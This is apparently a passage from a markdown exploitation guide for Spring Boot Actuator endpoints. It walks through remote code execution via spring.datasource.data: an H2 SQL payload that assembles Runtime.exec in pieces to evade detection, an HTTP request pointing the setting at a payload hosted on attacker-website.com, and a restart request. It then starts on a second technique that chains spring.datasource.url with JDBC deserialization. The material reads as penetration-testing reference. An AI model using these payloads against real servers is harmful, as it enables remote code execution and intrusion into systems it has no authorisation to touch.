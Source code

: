 ## spring.datasource.data

`spring.datasource.data` can be used to gain RCE if the following coditions are met:

- `/restart` is available
- `h2database` and `spring-boot-starter-data-jpa` dependencies are used

How to exploit:

1. Host `payload.sql` file with the following content:

    ```sql
    CREATE ALIAS T5 AS CONCAT('void ex(String m1,String m2,String m3)throws Exception{Runti','me.getRun','time().exe','c(new String[]{m1,m2,m3});}');CALL T5('/bin/bash','-c','open -a Calculator');
    ```

    The `T5` method in the payload must be renamed (to `T6`) after the command is executed before it can be recreated and used. Otherwise, the vulnerability will not trigger the next time an application is restarted.

2. Set the `spring.datasource.data`:

    ```http
    POST /actuator/env HTTP/1.1
    Content-Type: application/json

    {
        "name": "spring.datasource.data",
        "value": "http://attacker-website.com/payload.sql"
    }
    ```

3. Restart an application:

    ```http
    POST /actuator/restart HTTP/1.1
    Content-Type: application/json
    ```

The exploitaion chain contains the following steps:

1. An attacker set `spring.datasource.data` as the URL of the JDBC DML SQL file
2. An application requests the URL after restarting
3. `org.springframework.boot.autoconfigure.jdbc.DataSourceInitializer.java` from `spring-boot-autoconfigure` uses the `runScripts` method to execute the h2 database SQL code that leads to RCE

References:
- [Spring Boot Vulnerability Exploit Check List: restart spring.datasource.data h2 database RCE](https://github.com/LandGrey/SpringBootVulExploit#0x0crestart-springdatasourcedata-h2-database-rce)

## spring.datasource.url

`spring.datasource.url` is database connection string that is used only for the first connection. You can chain it with JDBC deserialization vulnerability in MySQL to gain RCE. The vulnerability requires the following conditions:

- `/refresh` is available
- `mysql-connector-java` dependency is used
